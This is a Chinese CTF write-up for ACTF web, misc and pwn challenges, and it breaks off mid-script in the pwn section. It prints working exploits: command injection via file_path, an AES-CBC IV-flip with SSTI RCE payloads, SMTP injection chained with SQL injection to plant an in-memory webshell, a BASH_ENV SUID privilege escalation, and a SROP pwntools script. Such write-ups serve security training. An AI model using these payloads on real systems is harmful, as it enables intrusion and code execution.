



# 目录

# Web

## ACTF upload

先任意用户名密码登录后发现上传文件接口，随便上传个文件，得到下载路径，存在任意文件读。读取源代码如下：

```python
import uuid
import os
import hashlib
import base64
from flask import Flask, request, redirect, url_for, flash, session

app = Flask(__name__)
app.secret_key = "S3cRetK3y" #此处源文件是读取环境变量里的

@app.route('/')
def index():
    if session.get('username'):
        return redirect(url_for('upload'))
    else:
        return redirect(url_for('login'))

@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin':
            if hashlib.sha256(password.encode()).hexdigest() == '32783cef30bc23d9549623aa48aa8556346d78bd3ca604f277d63d6e573e8ce0':
                session['username'] = username
                return redirect(url_for('index'))
            else:
                flash('Invalid password')
        else:
            session['username'] = "admin"
            return redirect(url_for('index'))
    else:
        return '''
        <h1>Login</h1>
        <h2>No need to register.</h2>
        <form action="/login" method="post">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <input type="submit" value="Login">
        </form>
        '''

@app.route('/upload', methods=['POST', 'GET'])
def upload():
    if not session.get('username'):
        return redirect(url_for('login'))

    if request.method == 'POST':
        f = request.files['file']
        file_path = str(uuid.uuid4()) + '_' + f.filename
        f.save('./uploads/' + file_path)
        return redirect(f'/upload?file_path={file_path}')

    else:
        if not request.args.get('file_path'):
            return '''
            <h1>Upload Image</h1>

            <form action="/upload" method="post" enctype="multipart/form-data">
                <input type="file" name="file">
                <input type="submit" value="Upload">
            </form>
            '''

        else:
            file_path = './uploads/' + request.args.get('file_path')
            if session.get('username') != 'admin':
                with open(file_path, 'rb') as f:
                    content = f.read()
                    b64 = base64.b64encode(content)
                    return f''
            else:
                os.system(f'base64 {file_path} > /tmp/{file_path}.b64')
                # with open(f'/tmp/{file_path}.b64', 'r') as f:
                #     return f''
                return 'Sorry, but you are not allowed to view this image.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

读取环境变量里的 secret_key 然后伪造 session 为 admin 执行命令即可

poc:

```python
import requests
import re
import base64

url="http://223.112.5.141:59393/upload"
headers={
    "cookie":"session=eyJ1c2VybmFtZSI6ImFkbWluIn0.aAw4yQ.m8Ejke8YhP5I452U-KGagnjrvic"
}
headers1={
    "cookie":"session=eyJ1c2VybmFtZSI6ImFhYSJ9.aAw6QQ.WEt5NV8HGcEmGM3aFXt3PAROrfI"
}
secret_key="S3cRetK3y"

def readFile(filename):
    params={
        "file_path":filename
    }
    res=requests.get(url,headers=headers1,params=params)
    print(res.text)
    b64_data=re.findall(r'base64,(.*?)\"',res.text)[0]
    print(base64.b64decode(b64_data).decode())

def cmd(cmd):
    # os.system(f'base64 {file_path} > /tmp/{file_path}.b64')
    params={
        "file_path":cmd
    }
    res=requests.get(url,headers=headers,params=params)
    print(res.text)


# readFile("../../../../proc/self/environ")
cmd("/etc/passwd;cat /Fl4g_is_H3r3 >/tmp/bbb;\n")
readFile("../../../../../tmp/bbb")
```

## not so web 1

随便注册登录进去获取源码。

```python
import base64, json, time
import os, sys, binascii
from dataclasses import dataclass, asdict
from typing import Dict, Tuple
from secret import KEY, ADMIN_PASSWORD
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from flask import (
    Flask,
    render_template,
    render_template_string,
    request,
    redirect,
    url_for,
    flash,
    session,
)

app = Flask(__name__)
app.secret_key = KEY

@dataclass(kw_only=True)
class APPUser:
    name: str
    password_raw: str
    register_time: int

#  In-memory store for user registration
users: Dict[str, APPUser] = {
    "admin": APPUser(name="admin", password_raw=ADMIN_PASSWORD, register_time=-1)
}

def validate_cookie(cookie: str) -> bool:
    if not cookie:
        return False

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False

    if len(cookie_encrypted) < 32:
        return False

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        cookie_json = cipher.decrypt(padded)
    except ValueError:
        return False

    try:
        _ = json.loads(cookie_json)
    except Exception:
        return False

    return True

def parse_cookie(cookie: str) -> Tuple[bool, str]:
    if not cookie:
        return False, ""

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False, ""

    if len(cookie_encrypted) < 32:
        return False, ""

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        decrypted = cipher.decrypt(padded)
        cookie_json_bytes = unpad(decrypted, 16)
        cookie_json = cookie_json_bytes.decode()
    except ValueError:
        return False, ""

    try:
        cookie_dict = json.loads(cookie_json)
    except Exception:
        return False, ""

    return True, cookie_dict.get("name")

def generate_cookie(user: APPUser) -> str:
    cookie_dict = asdict(user)
    cookie_json = json.dumps(cookie_dict)
    cookie_json_bytes = cookie_json.encode()
    iv = os.urandom(16)
    padded = pad(cookie_json_bytes, 16)
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(padded)
    return base64.b64encode(iv + encrypted).decode()

@app.route("/")
def index():
    if validate_cookie(request.cookies.get("jwbcookie")):
        return redirect(url_for("home"))
    return redirect(url_for("login"))

@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        user_name = request.form["username"]
        password = request.form["password"]
        if user_name in users:
            flash("Username already exists!", "danger")
        else:
            users[user_name] = APPUser(
                name=user_name, password_raw=password, register_time=int(time.time())
            )
            flash("Registration successful! Please login.", "success")
            return redirect(url_for("login"))
    return render_template("register.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if username in users and users[username].password_raw == password:
            resp = redirect(url_for("home"))
            resp.set_cookie("jwbcookie", generate_cookie(users[username]))
            return resp
        else:
            flash("Invalid credentials. Please try again.", "danger")
    return render_template("login.html")

@app.route("/home")
def home():
    valid, current_username = parse_cookie(request.cookies.get("jwbcookie"))
    if not valid or not current_username:
        return redirect(url_for("logout"))

    user_profile = users.get(current_username)
    if not user_profile:
        return redirect(url_for("logout"))

    if current_username == "admin":
        payload = request.args.get("payload")
        html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">Welcome, %s !</h2>
        <div class="text-center">
            Your payload: %s
        </div>
        
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
""" % (
            current_username,
            payload,
        )
    else:
        html_template = (
            """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">server code (encoded)</h2>
        <div class="text-center" style="word-break:break-all;">
        {%% raw %%}
            %s
        {%% endraw %%}
        </div>
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
"""
            % base64.b64encode(open(__file__, "rb").read()).decode()
        )
    return render_template_string(html_template)

@app.route("/logout")
def logout():
    resp = redirect(url_for("login"))
    resp.delete_cookie("jwbcookie")
    return resp

if __name__ == "__main__":
    app.run()
```

代码审计一下，发现 cookie 使用的是 AES CBC，同时携带了随机的 iv，发现 admin 的 message 的最后一位 n 正好是第十五位，注册一个用户 admim，然后修改对应的 iv，将其第十五位与 m 和 n 分别异或即可。获取 admin 后直接 ssti 即可。

Poc:

```python
import requests
import base64
import html

cookie="F1r8xIzw177OqC6h7KY9keCEpRWL2FMNqioquGi7KgUjHd4uLnP2eisaUzVwq3wJfN3rD9px4PTLp8bcTXCkS18Xcrczr4S2TwK2uqxVCUKbQ34OPTwCVXpBW0qTCse0"
cookie_encrypted = base64.b64decode(cookie, validate=True)
iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
iv=iv[:14]+(iv[14]^3).to_bytes(1, byteorder='big')+iv[15:]
cookie_encrypted=iv+padded
cookie_decrypted = base64.b64encode(cookie_encrypted).decode()
# print(cookie_decrypted)

url="http://223.112.5.141:52443/home"
headers={
    "cookie":"jwbcookie=F1r8xIzw177OqC6h7KY+keCEpRWL2FMNqioquGi7KgUjHd4uLnP2eisaUzVwq3wJfN3rD9px4PTLp8bcTXCkS18Xcrczr4S2TwK2uqxVCUKbQ34OPTwCVXpBW0qTCse0"
}
params={
    "payload":"{{().__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['__builtins__']['eval']('__import__(\"os\").popen(\"cat flag.txt\").read()')}}"
}

res=requests.get(url,headers=headers,params=params)
print(html.unescape(res.text))
```

## not so web 2

非预期，在验证签名时使用的是 try except，但是验证签名错误不会抛出异常（应该使用 verify 返回的 bool 值进行判断）。所以相当于没有签名验证，直接修改消息部分的用户为 admin 即可。ssti 绕过下划线就好。

poc：

```python
import requests
import html

url="https://61.147.171.105:50117/home"
headers={
    "cookie":"jwbcookie=eyJ1c2VyX25hbWUiOiAiYWRtaW4iLCAibG9naW5fdGltZSI6IDE3NDU2NTEyODR9JmNiOGQ1MjBiZDExMzIxM2RmYTZiNzIzZWQ0YjkwY2ZkOWVjZTJkNDg1NjQ4N2JlZWI1NTIyMmY3OWUyMjk3ZTAxODM3Y2RmYjYzMTMzMDY0NTdjNmM2ZmQ0YjJkYWYzYTRlMmMwNDZjNWYzNDMwYTkzZmY4ZjAxZWM0YWRiNTNiYmFmNGE0ZjE3NjM1YzQxZmVmZDllOTk4NjUwMmY0OWI0N2Y3OTY3OTFhMmQzZGEzNGVmOTRjMGM1N2U0YjdiZjZiOTNhZDYwMjE4NjlhOTgwY2RhNWNlMjc1YTdiZDI5MzUxNjE5MGYzNDE3MzY5ZjBlNjYxNWU4ZDY3NTYxNjY0YzdiYTkxNDJkMTc4MWY2NzFkNWZiNDI4YzM1YWI1MGExMDg5ZDYxODIwZTRhNmExNzhmMWNkYzcxY2VjMjFlNjYyM2Q5NTRmNGEwMzFlNDRjYTliODExMTczOTkxZTBmYmEyOTIyYzQzZTQ4MDU0MzRiODczOTI5OThkNzFkMjUyYmIwZDE1MmQyYmZhYzBiY2MyNThiNzVmYjA0ZDc3NmNjY2RiMTNhMDI0N2ViYzExZTQxZjE5NmIxYTM4MGI1YTJhOTE5ZmNkMzAyMGEwZGQwNDA3ZjVjOWZhNzU0ZjI1ZTg4OTdiOTlmYjE4YWJhN2VkYjhkYTg5NzVmOTk5"
}
params={
    "v1":"__class__",
    "v2":"__base__",
    "v3":"__subclasses__",
    "v4":"__init__",
    "v5":"__globals__",
    "v6":"__builtins__",
    "v7":"eval",
    "v8":'''__import__("os").popen("cat flag.txt").read()''',
    "payload":"{{\"\"[request.args.v1][request.args.v2][request.args.v3]()[132][request.args.v4][request.args.v5][request.args.v6][request.args.v7](request.args.v8)}}"
}

res=requests.get(url,headers=headers,params=params,verify=False)
print(html.unescape(res.text))
```

## Excellent-Site

这道题的思路是通过 report 发送邮件，访问/bot，admin 会从收件箱取出最近的一封来自 admin 的邮件的主题。把主题作为 url 获取其中的内容进行模版渲染。

在 report 中代码设置了`smtplib._quote_periods = lambda x: x`，这样就可以通过`.`来作为一封邮件的结束，进行 smtp 注入，发送一封来自 admin 的邮件。

同时在 admin 拿到 subject 后还会校验 url 的 hostname 只能是 ezmail.org，所以不能通过访问 url 的方式获取 paload 进行 ssti。于是我们可以通过/news 中的 sql 注入获取 payload。

剩下的就是 ssti 了，直接打 ssti 内存马即可。

这里可能有几个坑，一个是我之前懒得搭建邮件服务器，直接使得 163，导致每次只能收到第一个邮件，收不到自定义的邮件。后来猜测可能是时间太短，连接已经被关了或者是第一封邮件和第二封邮件不能在一个数据包里（猜测的，不确定）。于是在第一封邮件多添加了 1000 多个垃圾字符，同时在发送第二封邮件后有添加了比较多的垃圾字符，防止连接被关闭。但是就算这样也是有时候成功有时间不行（163 邮箱）。

第二个坑是当时/news 的数据库是自己建的，里面没有内容，开了远程后忘了先访问一下测试看看，导致 sql 注入那里一直写的是 1 union，查出来的数据是原先数据库的第一条数据，payload 没有返回，这里卡了很久，一直以为是发送邮件那里的问题...

POC:

```python
import smtplib
from urllib.parse import urlparse
import requests
from email.header import decode_header

payload0=b'''{{url_for.__globals__["__builtins__"]["eval"](''__import__("sys").modules["__main__"].__dict__["app"].before_request_funcs.setdefault(None,[]).append(lambda :__import__("os").popen(r.args.get("a")).read())'',{"r":url_for.__globals__["request"]})}}'''
payload=f"8 union select '{payload0.decode()}'"
url="http://ezmail.org:3000/news?id="+payload
print(url)

# content="123456\r\n.\r\n.\r\n"
subject=url.encode()[:295]

content = "a"*1300+"\r\n.\r\n"+"mail"*51+"mail FROM:<admin@ezmail.org>\r\n"
content1=b'mail FROM:<admin@ezmail.org>\r\nrcpt TO:<admin@ezmail.org>\r\ndata\r\nFrom: admin@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: '+subject+b'\r\n\r\n1234562\r\n.\r\n'+b'a'*1000000

url="subject2"
smtplib._quote_periods = lambda x: x
mail_content = """From: ignored@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: {url}\r\n\r\n{content}\r\n.\r\n"""
mail_content = smtplib._fix_eols(mail_content)
mail_content = mail_content.format(url=url, content=content+content1.decode())

url3="http://61.147.171.105:53302/report"
datas={
    "url":url,
    "content":content+content1.decode()
}
print(len(datas['content']))
res=requests.post(url3,data=datas)
print(res.text)
```

# misc

## Signin

flag 在 commit 的提交记录里

ACTF{w3lc0ME2aCtf2O25h@veAn1ceDAY}

## QQQRcode[solved]

```python
import hashlib
import string
import itertools
import qrcode
import sys
import time
import collections


# 解决工作量证明 (PoW) - 与之前相同
def solve_pow(suffix, digest):
    """
    尝试暴力破解 PoW 的前缀 XXXX。
    """
    chars = string.ascii_letters + string.digits
    print(f"开始求解 PoW: sha256(XXXX+{suffix}) == {digest}")
    start_time = time.time()

    # 遍历所有 4 位字母数字组合
    for xxxx_tuple in itertools.product(chars, repeat=4):
        prefix = "".join(xxxx_tuple)
        attempt = prefix + suffix
        # 计算 SHA256 哈希并比对
        if hashlib.sha256(attempt.encode()).hexdigest() == digest:
            end_time = time.time()
            print(f"PoW 求解成功！耗时：{end_time - start_time:.4f} 秒")
            return prefix

    end_time = time.time()
    print(f"未找到 PoW 解。耗时：{end_time - start_time:.4f} 秒")
    return None  # 理论上 CTF 不会是无解的


# 生成 QR 码布尔矩阵 (Version 1, L 级别纠错) - 与之前相同
def generate_qr_matrix(text):
    """
    为给定文本生成 Version 1 L 纠错级别的 21x21 QR 码布尔矩阵。
    返回的矩阵是标准的 [行][列] 格式，即 [y][x]。
    """
    try:
        qr = qrcode.QRCode(
            version=1,
            error_correction=qrcode.constants.ERROR_CORRECT_L,
            box_size=1,  # 每个模块 1x1 像素
            border=0  # 无边框
        )
        qr.add_data(text)
        qr.make(fit=False)  # 强制使用 Version 1
        return qr.get_matrix()  # 返回布尔列表的列表
    except qrcode.exceptions.DataOverflowError:
        print(f"错误：'{text}' 的数据量对于 Version 1 QR 码来说太大了。")
        sys.exit(1)


# 构建 21x21x21 三维数据 (使用贪心集合覆盖算法)
def build_3d_data_greedy():
    """
    根据三个 QR 码图案，使用贪心算法构建一个稀疏的 21x21x21 三维布尔数据。
    """
    size = 21
    # 生成三个 QR 码矩阵 (标准格式 [y][x])
    print("生成 'Azure' QR 码图案...")
    qr_azure_matrix = generate_qr_matrix("Azure")
    print("生成 'Assassin' QR 码图案...")
    qr_assassin_matrix = generate_qr_matrix("Assassin")
    print("生成 'Alliance' QR 码图案...")
    qr_alliance_matrix = generate_qr_matrix("Alliance")

    # --- 步骤 1: 确定所有需要覆盖的 QR 码模块点 ---
    # 使用集合来存储需要覆盖的点，格式为 ('视图', 维度1索引, 维度2索引)
    # 视图: 'F' (Front), 'L' (Left), 'T' (Top)
    required_elements = set()
    print("确定需要覆盖的 QR 码模块点...")
    for x in range(size):
        for y in range(size):
            if qr_azure_matrix[y][x]:  # Azure QR 码 [y][x] 对应 front[x][y]
                required_elements.add(('F', x, y))
        for z in range(size):  # Assassin/Alliance QR 码都是 21x21
            if qr_assassin_matrix[z][y]:  # Assassin QR 码 [z][y] 对应 left[y][z]
                required_elements.add(('L', y, z))
            if qr_alliance_matrix[z][x]:  # Alliance QR 码 [z][x] 对应 top[x][z]
                required_elements.add(('T', x, z))

    # 去重，只保留独特的点
    unique_required_elements = set()
    for x in range(size):
        for y in range(size):
            if qr_azure_matrix[y][x]:
                unique_required_elements.add(('F', x, y))
    for y in range(size):
        for z in range(size):
            if qr_assassin_matrix[z][y]:
                unique_required_elements.add(('L', y, z))
    for x in range(size):
        for z in range(size):
            if qr_alliance_matrix[z][x]:
                unique_required_elements.add(('T', x, z))

    # --- 步骤 2: 确定所有可能的体素点 (交集点) 及其覆盖的模块 ---
    # 这些是唯一可以放置 '1' 的位置
    potential_voxels = []
    # 存储每个体素覆盖的模块点
    voxel_to_elements = {}
    print("确定所有可能的体素点 (交集) 及其覆盖的模块...")
    for x in range(size):
        for y in range(size):
            for z in range(size):
                # data[x][y][z] 只有在此处才可能为 True
                is_potential_one = (qr_azure_matrix[y][x] and  # 前视图 (x, y) 对应 Azure [y][x]
                                    qr_assassin_matrix[z][y] and  # 左视图 (y, z) 对应 Assassin [z][y]
                                    qr_alliance_matrix[z][x])  # 俯视图 (x, z) 对应 Alliance [z][x]

                if is_potential_one:
                    voxel = (x, y, z)
                    potential_voxels.append(voxel)
                    # 这个体素覆盖了三个投影点
                    covered_elements = set([('F', x, y), ('L', y, z), ('T', x, z)])
                    voxel_to_elements[voxel] = covered_elements

    # --- 步骤 3: 贪心选择体素以覆盖所有必需模块 ---
    selected_voxels = set()  # 最终选定的体素集合
    currently_uncovered = set(unique_required_elements)  # 当前尚未被覆盖的模块点

    print(f"总共需要覆盖 {len(currently_uncovered)} 个 QR 码模块点。")
    print(f"总共有 {len(potential_voxels)} 个潜在体素点可供选择 (交集数量)。")
    print("开始贪心集合覆盖算法...")

    # 为了效率，创建一个映射：模块点 -> 哪些体素可以覆盖它
    element_to_voxels = collections.defaultdict(set)
    for voxel, elements in voxel_to_elements.items():
        for element in elements:
            element_to_voxels[element].add(voxel)

    # 复制一份潜在体素列表，因为我们要从中移除已选的
    remaining_potential_voxels = list(potential_voxels)

    while currently_uncovered:
        # 在剩余的潜在体素中，找到能覆盖最多当前未覆盖模块的体素
        best_voxel = None
        max_covered = -1

        # 优化：只考虑能覆盖至少一个未覆盖模块的体素
        candidate_voxels = set()
        for element in currently_uncovered:
            candidate_voxels.update(element_to_voxels[element])

        # 从候选体素中过滤掉已经选择过的
        candidate_voxels = candidate_voxels.difference(selected_voxels)

        if not candidate_voxels:
            # 如果没有候选体素了，但仍有未覆盖的模块，说明无解（在此 CTF 中不应发生）
            print("警告：贪心算法无法覆盖所有模块！")
            break  # 退出循环

        for voxel in candidate_voxels:
            # 计算当前体素覆盖了多少个【当前未覆盖】的模块点
            covered_by_this_voxel = voxel_to_elements[voxel].intersection(currently_uncovered)
            num_covered_by_this = len(covered_by_this_voxel)

            if num_covered_by_this > max_covered:
                max_covered = num_covered_by_this
                best_voxel = voxel

        # 选中最佳体素
        selected_voxels.add(best_voxel)
        # 从未覆盖集合中移除这个体素所覆盖的模块点
        currently_uncovered -= voxel_to_elements[best_voxel]

        # 报告进度
        if len(selected_voxels) % 10 == 0 or len(currently_uncovered) < 100:
            print(f"已选择 {len(selected_voxels)} 个体素, 剩余 {len(currently_uncovered)} 个模块未覆盖...")

    print(f"贪心算法选择的体素数量 (即 '1' 的数量): {len(selected_voxels)}")
    if len(selected_voxels) >= 390:
        print("警告：即使使用贪心算法，'1' 的数量仍然 >= 390。可能需要更高级的求解方法或存在其他解读。")
    else:
        print("'1' 的数量满足原脚本限制 (< 390)。")

    # --- 步骤 4: 根据选定的体素构建最终的三维布尔数据 ---
    data = [[[False for _ in range(size)] for _ in range(size)] for _ in range(size)]
    print("根据选定的体素构建最终三维数据...")
    for (x, y, z) in selected_voxels:
        data[x][y][z] = True

    return data


# 将三维数据转换为原脚本所需的二进制字符串格式 - 与之前相同
def convert_to_binary_string(data):
    """
    按照原脚本 parse_data 函数的顺序 (z, y, x) 将三维布尔数据转换为二进制字符串。
    """
    size = 21
    binary_string_list = []
    print("将三维数据转换为二进制字符串 (顺序: z -> y -> x)...")
    # 字符串填充顺序是 z (外), y (中), x (内)
    for z in range(size):
        for y in range(size):
            for x in range(size):
                binary_string_list.append('1' if data[x][y][z] else '0')

    return "".join(binary_string_list)


# 主流程 - 与之前类似，调用新的 build_3d_data_greedy 函数
if __name__ == "__main__":
    print("===== CTF 求解脚本 (使用贪心算法) =====")
    print("请先运行原 python 脚本。当看到 PoW 提示时，复制相关信息粘贴到这里。")

    try:
        # 获取 PoW 参数
        # 示例提示: sha256(XXXX+8aBcDeFg12HiJkLm) == abcdef123456...
        # 你需要输入 8aBcDeFg12HiJkLm 和 abcdef123456...
        suffix_prompt = input("请输入 PoW 提示中 '+' 后面的字符串 (suffix): ")
        digest_prompt = input("请输入 PoW 提示中 '==' 后面的哈希值 (digest): ")

        # 求解 PoW
        pow_prefix = solve_pow(suffix_prompt, digest_prompt)

        if not pow_prefix:
            print("未能求解 PoW，脚本退出。")
            sys.exit(1)

        # 构建三维数据 (使用贪心算法)
        data_3d = build_3d_data_greedy()

        # 转换为二进制字符串
        binary_solution = convert_to_binary_string(data_3d)

        print("\n===== 求解完成，请将以下信息粘贴到原脚本 =====")
        print("-" * 40)
        print(f"PoW 'XXXX' 的答案是:")
        print(pow_prefix)
        print("-" * 40)
        print(f"要输入的二进制字符串 (长度: {len(binary_solution)}):")
        # 为了方便复制，如果字符串很长，可以考虑分行打印或保存到文件
        # print(binary_solution)
        # 或者分块打印:
        chunk_size = 80  # 每行打印 80 个字符
        for i in range(0, len(binary_solution), chunk_size):
            print(binary_solution[i:i + chunk_size])
        print("-" * 40)
        print("祝你成功获得 flag！")

    except Exception as e:
        print(f"\n脚本运行出错: {e}")
        import traceback

        traceback.print_exc()
```

## Hard guess[solved]

信息收集后将所有的单词日期进行分割大小写组合，尝试出 ssh 密码 Megumi960923

通过 ssh KatoMegumi@61.147.171.105 -p 63761 登录 ssh 后，查看历史命令和当前进程，都没什么东西。通过提示 root，判断 flag 可能在 root 文件夹里，尝试提权。

通过`find / -user root -perm /4000 2>/dev/null`尝试 suid 提权，搜索到/opt/hello，下载下来放在 ida 分析，发现先删除了 LD_PRELOAD 这样的环境变量，以及设置了环境变量 PATH 为 bin 防止了环境变量提权，但是可以发现，echo 有两种形式，当输入 y 时，是直接使用的 echo，当输入 n 时使用的是 bash -c，所以可以设置环境变量 BASH_ENV 进行提权

```shell
export BASH_ENV='$(cat /root/flag >/tmp/a)'
```

## master of movie[solved]

1:tt0017136，识图

2：tt8893624，https://www.saucenao.cn/查询

3:tt0109946 识图

4:tt17526714 识图

5:tt31309480，碰之道，搜索里面角色的 ID，找到第四话之类的相关网站，尝试找到 b 站的这个番，翻了一下第四话，验证成功



6:tt34382036，识图

7:tt8503618，识图

8:tt0368226，识图

9:tt0103767（天地玄黄），识图

10:tt0110912（低俗小说），识图

hard：

2:tt0109688 东邪西毒，识图

4:tt0043306 流浪者，google 识图完找到一张同情景下的图片，看人物、环境可以对应。后续再搜这张图可以得到电影名称。


5:tt5004766，发现蜘蛛很有特点，于是问了 AI，得到被遗忘的孩子。



# pwn

## only_read

gothijack 改 read 为 syscall 的地址，打 srop

```python
#! /usr/bin/python3
from pwn import *
#pyright: reportUndefinedVariable=false
import subprocess

context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

elf=ELF("./only_read")

debug = 0

if debug:
    io = process('./log.sh')
    sleep(1)
    target_pids = proc.pid_by_name('app')
    # io.recvuntil(b'hashcash -mb26 ')
    # code=io.recv(9)
    # cmd = ['hashcash', '-mb26', code]
    # result = subprocess.run(cmd, capture_output=True, text=True)
    # print(result.stdout)
    # io.sendline(result.stdout)
    # # sleep(0.5)
    # io.recvuntil(b'Here is your challenge~')
    #io = remote('0.0.0.0',9999)
else:
    io = remote('1.95.199.251',9999)
    io.recvuntil(b'hashcash -mb26 ')
    code=io.recv(9)
    cmd = ['hashcash', '-mb26', code]
    result = subprocess.run(cmd, capture_output=True, text=True)
    print(result.stdout)
    io.sendline(result.stdout)
    # sleep(0.5)
    io.recvuntil(b'Here is your challenge~')

def p():
    gdb.attach(target_pids[0])

payload=b'a'*0x80+p64(0x404100)+p64(0x401142)
# p()
io.sendline(payload)
sleep(1)

addr=0x4041d0

sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=addr
sigFrame.rsi=0x0
sigFrame.rdx=0x0
sigFrame.rip=0x401044
sigFrame.r9=0x401142
sigFrame.r8=0x404080
sigFrame.rsp=0x404400
sigFrame.rbp=0x404400

ret=0x40115E
